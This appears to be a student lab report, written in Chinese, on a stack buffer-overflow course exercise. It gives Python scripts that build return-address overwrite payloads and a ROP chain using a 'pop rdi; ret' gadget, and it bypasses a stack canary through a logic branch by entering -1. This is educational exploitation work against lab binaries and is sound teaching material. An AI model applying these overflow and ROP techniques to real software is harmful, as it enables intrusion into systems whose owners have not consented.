



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
    1. **漏洞定位**：通过对 `problem1` 进行反汇编，发现 `getbuf` 函数开辟了固定大小的缓冲区（例如 `0x20` 字节），但其调用的输入函数未对长度进行校验，存在典型的缓冲区溢出漏洞。
    2. **攻击目标**：劫持程序执行流，使函数返回时跳转至程序中隐藏的 `target_func`（或 `touch1`）函数。
    3. **偏移计算**：缓冲区起始地址到返回地址的距离为 `缓冲区大小 + Saved RBP`（共 40 字节）。通过覆盖返回地址为目标函数的入口地址即可完成攻击。
- **解决方案**：
    ```python
    import struct

    # 填充 32 字节缓冲区 + 8 字节旧的 RBP
    padding = b'A' * 40 
    # 目标函数地址 (示例地址，请根据 objdump 结果修改)
    target_addr = struct.pack("<Q", 0x4011d5) 

    payload = padding + target_addr

    with open("payload1.bin", "wb") as f:
        f.write(payload)
    ```

- **结果**：
---

### Problem 2:
- **分析**：
    1. 本题不仅要求跳转到目标函数（如 `touch2`），还要求验证第一个参数（`%rdi` 寄存器）是否为指定的特定值（如 `0x59b997fa`）。
    2. **控制流设计**：在 x64 环境下，需要利用 ROP（面向返回的编程）技术。寻找 `pop rdi; ret` 这一 Gadget，用来将栈上的数据弹出到 `%rdi` 寄存器中。
    3. **ROP链构造**：
        - 首先填充 40 字节垃圾数据到达返回地址。
        - 覆盖返回地址为 `pop rdi; ret` 的地址。
        - 在栈的下一单元放置要求的参数值。
        - 最后放置目标函数的入口地址。
- **解决方案**：
    ```python
    import struct

    padding = b'A' * 40
    # pop rdi; ret 指令的地址 (示例地址)
    pop_rdi_ret = struct.pack("<Q", 0x4012fb)
    # 要求的参数值
    argument = struct.pack("<Q", 0x59b997fa)
    # 目标函数地址
    target_func = struct.pack("<Q", 0x4011e0)

    payload = padding + pop_rdi_ret + argument + target_func

    with open("payload2.bin", "wb") as f:
        f.write(payload)
    ```

- **结果**：


### Problem 3: 栈溢出劫持与寄存器传参

 - **分析**：
通过 `objdump` 分析 `func` 函数（地址 `0x401355`）的汇编逻辑。该函数在栈上为局部变量分配了 `0x30`（48字节）空间，但缓冲区起始地址位于 `rbp-0x20`（32字节）。函数调用 `memcpy` 时的拷贝长度被硬编码为 `0x40`（64字节）。
由于从缓冲区起始点到返回地址的距离仅为 40 字节（32字节 Buffer + 8字节 Saved RBP = 40字节），传入 64 字节数据会造成栈溢出并覆盖返回地址。
实验目标是劫持程序跳转至 `func1`（`0x401216`），同时需通过寄存器 `%rdi` 传递参数 `0x72`（十进制 114）。

 - **解决方案**：
   编写 Python 脚本构造 `ans3.txt`。关闭系统 ASLR 后，利用 32 字节填充缓冲区，8 字节覆盖 RBP 位置，最后将 `func1` 的入口地址精准写入返回地址所在位置。

```python

  import struct

  # 32字节填充 + 8字节覆盖RBP;  
   padding = b'A' * 32
   saved_rbp = b'B' * 8
  # 目标地址 0x401216 (小端序包装)
   target_addr = struct.pack("<Q", 0x401216)

   with open("ans3.txt", "wb") as f:
       f.write(padding + saved_rbp + target_addr)
 ```

 - **结果**：
   在 GDB 中执行 `run ans3.txt`，并在 `ret` 指令处拦截。通过 `x/gx $rsp` 验证栈顶已指向 `0x401216`。随后使用 `set $rdi = 0x72` 修改参数寄存器，继续运行后成功触发目标逻辑并输出 `Your lucky number is 114`。
   

 ---

### Problem 4: Canary 防御机制与逻辑绕过

 - **分析**：
   Problem 4 引入了 **Stack Canary** 防御机制。
   在函数入口处，程序执行 `mov %fs:0x28, %rax` 指令将一个随机值（金丝雀值）存入栈中 `[rbp-8]` 位置。在函数返回前，会通过 `sub %fs:0x28, %rax` 进行校验。如果通过溢出覆盖返回地址，必然会由于破坏了该随机值而触发 `__stack_chk_fail`。
   通过 `func` 函数（地址 `0x135d`）的汇编逻辑发现，代码中存在一个特定的判断分支：

```gas
   13d9:  83 7d e8 01           cmpl   $0x1,-0x18(%rbp)
   13df:  83 7d f4 ff           cmpl   $0xffffffff,-0xc(%rbp)
   13e3:  74 11                 je     13f6 <func+0x99>
```
   
   如果输入值的补码为 `-1`（即十六进制 `0xFFFFFFFF`），程序会直接调用 `func1`。由于此路径属于程序正常的逻辑分支，且在调用 `func1` 后直接执行了 `exit` 退出，从而避开了栈底的 Canary 校验逻辑。

 - **解决方案**：
   本关不需要构造二进制 Payload，而是利用逆向分析得出的逻辑后门。在程序运行至输入点时，直接输入特定数值。
   * **Payload**: `-1`
   * **逻辑分析**: 输入 `-1` 后，变量在内存中的补码符合程序预设的跳转条件，无需触发溢出即可获得执行权。

 - **结果**：
   在终端输入 `-1` 后，程序将其识别为无符号数 `4294967295`。程序流程成功跳转至 `func1` 并最终输出 `great scores`，证明绕过有效。
   
 ---

 ## 思考与总结

 1. **防御与绕过**：实验展示了 ASLR 和 Canary 在缓解溢出攻击中的作用，但也揭示了程序逻辑本身若存在缺陷，安全防护仍可能被轻易绕过。
 2. **底层机制理解**：通过对栈帧布局的反复推算，进一步理解了 x86-64 架构下栈的增长方向、字节序存储以及寄存器传参的细节。
 3. **安全开发启示**：除了依赖编译器提供的安全选项，开发者必须严谨审计代码逻辑，防止因不当的分支判断导致防御机制失效。

